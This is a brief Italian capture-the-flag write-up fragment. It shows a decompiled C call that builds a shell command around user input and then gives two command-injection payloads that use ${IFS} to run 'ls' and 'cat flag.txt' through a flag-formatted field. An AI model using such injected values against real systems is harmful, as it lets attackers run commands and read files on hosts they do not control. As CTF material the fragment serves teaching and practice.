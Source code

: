 ```c
FUN_001012b0(acStack_828,1,1024,"echo -n \"%s\" | sha256sum | cut -f 1 -d \\ ",param_1);
```

Da questa riga possiamo iniettare comandi

`CCIT{";${IFS}ls;${IFS}echo${IFS}"}` 

`CCIT{";${IFS}cat${IFS}flag.txt;${IFS}echo${IFS}"}`